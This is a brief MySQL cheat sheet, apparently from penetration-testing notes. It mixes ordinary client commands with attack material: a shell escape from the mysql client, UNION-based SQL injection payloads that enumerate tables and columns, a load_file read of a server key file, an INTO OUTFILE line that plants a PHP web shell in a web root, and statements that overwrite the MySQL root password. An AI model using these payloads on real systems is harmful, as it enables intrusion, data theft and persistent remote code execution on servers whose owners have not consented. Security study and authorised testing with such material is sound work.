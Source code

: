 MySql
========================

## Accessing locally

    mysql -u root # Connect to root without password
    mysql -u root -p # A password will be asked (check someone)
    
## Accessing remote

    mysql -h <Hostname> -u root
    mysql -h <Hostname> -u root@localhost


## Commands

    mysql -u username -p < manycommands.sql #A file with all the commands you want to execute
    mysql -u root -h 127.0.0.1 -e 'show databases;'

    show databases;
    use <database>;
    show tables;
    describe <table_name>;
    show columns from <table>;
    
    select version(); #version
    select @@version(); #version
    select user(); #User
    select database(); #database name
    
## Get a shell with the mysql client user
        
    \! sh
    
## Basic MySQLi

    Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
    Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"
    
## Read & Write
 
 OBS You need FILE privilege to read & write to files.
    
    select load_file('/var/lib/mysql-files/key.txt'); #Read file
    select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'
 
## Try to change MySQL root password
   
    UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
    UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
    FLUSH PRIVILEGES;
    quit;
